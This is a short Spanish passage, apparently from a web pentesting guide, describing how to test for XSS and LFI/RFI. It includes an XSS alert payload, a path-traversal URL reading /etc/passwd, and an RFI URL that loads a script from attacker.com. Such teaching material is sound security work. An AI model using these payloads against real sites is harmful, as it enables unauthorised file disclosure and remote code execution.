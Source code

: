#### XSS

- Busca campos de entrada que se reflejen en la página web.
- Intenta insertar código JavaScript simple, como <script>alert('XSS')</script>.
- Prueba diferentes variaciones para evadir posibles filtros.
- Verifica si el código se ejecuta en el navegador.

#### LFI/RFI

- Identifica parámetros que puedan incluir archivos, como "page" o "file".
- Para LFI, intenta acceder a archivos del sistema usando rutas relativas o absolutas.
- Para RFI, prueba incluir archivos remotos usando URLs completas.
- Observa si puedes leer archivos sensibles o ejecutar código remoto.

Ejemplo LFI:

```
http://vulnerable-website/file.php?file=../../../../etc/passwd
```

Ejemplo RFI:

```
http://vulnerable-website/file.php?file=http://attacker.com/malicious_script.php
```
## 6. Parar peticiones

Si usamos aplicaciones para parar las peticiones que el cliente(nosotros) hago con el servidor, podemos ver como tratan algunas consultas.